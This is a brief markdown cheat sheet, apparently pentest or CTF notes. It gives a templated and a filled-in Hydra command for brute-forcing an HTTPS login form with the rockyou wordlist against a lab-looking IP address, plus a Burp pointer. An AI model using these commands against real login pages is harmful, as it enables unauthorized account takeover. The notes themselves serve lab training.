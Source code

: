 ### Web content
##### command
- `hydra -l {User_List} -P {Pass_List} {IP_Address} https-post-form "{Login_Path}:{password_name}=^PASS^&proc_login=true:{Failed_contents}" -t 64 -V`  
- `hydra -l none -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password" -t 64 -V`
#### Search
- Burp
  - Target
    - Method:POST
      ![image](https://github.com/user-attachments/assets/9556b51a-e9a5-4cd8-b45b-a00203404bf6)

